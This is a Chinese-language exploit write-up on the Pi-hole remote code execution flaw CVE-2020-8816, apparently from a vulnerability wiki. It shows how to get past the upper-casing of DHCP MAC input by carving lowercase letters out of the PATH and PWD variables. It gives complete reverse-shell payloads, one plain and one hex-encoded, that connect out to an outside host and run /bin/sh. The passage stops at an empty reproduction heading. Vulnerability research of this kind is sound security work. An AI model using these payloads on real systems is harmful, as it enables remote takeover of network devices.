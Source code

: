 根据源码中的validMAC()函数，我们得知程序会对用户输入做一个基本的MAC地址格式判断，只要由12个字母或数字组成，就可以通过验证。

-   2、获取p,h,r的小写字符

```{=html}
<!-- -->
```
    SHORT=${PATH##/***:/}&&A=${SHORT#???}&&P=${A%/???}&&B=${PWD#/???/???/}&&H=${B%???/?????}&&C=${PWD#/??}&&R=${C%/???/????/?????}

原本的payload应该为：

    aaaaaaaaaaaa&&php -r ‘$sock=fsockopen(“target.0-sec.org”,2256);exec(“/bin/sh -i <&3 >&3 2>&3”);’

但是由于程序会对用户输入做一个大写转换，因此，php -r会变成PHP
-R，命令无法识别，因此需要找到一种方式获取p、h、r的小写字符。

可以使用环境变量，变量名都是大写字母，而变量值中可能包含各种小写字母。

在浏览器中进入http://www.0-sec.org/admin，登陆后，选择Setting-\>DHCP选项卡，先试一下PATH变量，输入aaaaaaaaaaaa\$PATH，结果显示：

![1.png](/Users/aresx/Documents/VulWiki/.resource/(CVE2020-8816)Pi-hole远程代码执行漏洞/media/rId26.png)

很遗憾，没有h字符，看来还需要找其他环境变量。我在env命令的执行结果中找到了PWD变量，输入试一下：

![2.png](/Users/aresx/Documents/VulWiki/.resource/(CVE2020-8816)Pi-hole远程代码执行漏洞/media/rId27.png)

里面有h和r，所以，我可以使用PATH和PWD两个环境变量，获得p、h、r这几个字符。

我使用了[Shell参数扩展](https://www.gnu.org/software/bash/manual/html_node/Shell-Parameter-Expansion.html)对这两个变量值进行截取：

    p:
        SHORT=${PATH##/***:/}&&A=${SHORT#???}&&P=${A%/???}
    h:
        B=${PWD#/???/???/}&&H=${B%???/?????}
    r:
        C=${PWD#/??}&&R=${C%/???/????/?????}

根据[模式匹配](https://www.gnu.org/software/bash/manual/html_node/Pattern-Matching.html#Pattern-Matching)的规则，应该可以写出更简洁的方法，但是我的系统中好多shell选项都没有开启，考虑到通用性，我就直接选择了最傻瓜的匹配方式。

3、获得反向shell

    $P$H$P$IFS-$R$IFS'EXEC(HEX2BIN("706870202d72202724736f636b3d66736f636b6f70656e28223139322e3136382e312e313035222c32323536293b6578656328222f62696e2f7368202d69203c2633203e263320323e263322293b27"));'

先把变量换成对应的字符，注意上面的`$IFS`是shell的一个内定变量，默认为`<space><tab><newline>`，这里代替空格。

    php -r 'exec(hex2bin("706870202d72202724736f636b3d66736f636b6f70656e28223139322e3136382e312e313035222c32323536293b6578656328222f62696e2f7368202d69203c2633203e263320323e263322293b27"))'

然后替换`hex2bin`的执行结果（转义符是我后加的）：

    php -r 'exec(php -r \'$sock=fsockopen("target.0-sec.org",2256);exec("/bin/sh -i <&3 >&3 2>&3");\')'

这段代码就可以获得一个反向shell。

漏洞复现
--------
